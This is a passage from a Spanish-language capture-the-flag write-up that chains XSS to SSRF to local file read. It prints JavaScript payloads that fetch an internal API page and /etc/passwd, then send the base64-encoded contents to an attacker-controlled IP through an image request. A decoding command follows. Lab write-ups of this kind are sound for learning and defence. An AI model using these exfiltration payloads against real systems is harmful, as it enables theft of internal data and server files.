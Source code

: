```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
x.open("GET","http://localhost:3000/");x.send();
```

Veremos como recibimos una petición con el contenido codificado en **base64**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315190908.png>)

Gracias a la siguiente instrucción de bash, conseguiremos decodificar el contenido que está en **base64**.

```bash
echo -n "eyJu..." | base64 -d | jq
```

Veremos que en el puerto **3000** (abierto internamente), se encuentra una **API** a través de la cual podemos ejecutar comandos tras previamente habernos logeado como un usuario con el rol de **admin**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315191011.png>)
### XSS → SSRF → LFI

Mediante la vulnerabilidad **SSRF**, intentamos leer archivos locales en el servidor, es decir aplicar un **LFI**. Para ello, el contenido de `pwned.js` ha de ser el siguiente.

```js
x=new XMLHttpRequest;
x.onload=function(){new Image().src=`http://192.168.26.10/?resText=${btoa(this.responseText)}`};
x.open("GET","file:///etc/passwd");x.send();
```

Veremos como recibimos una petición codificada en **base64**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315191255.png>)
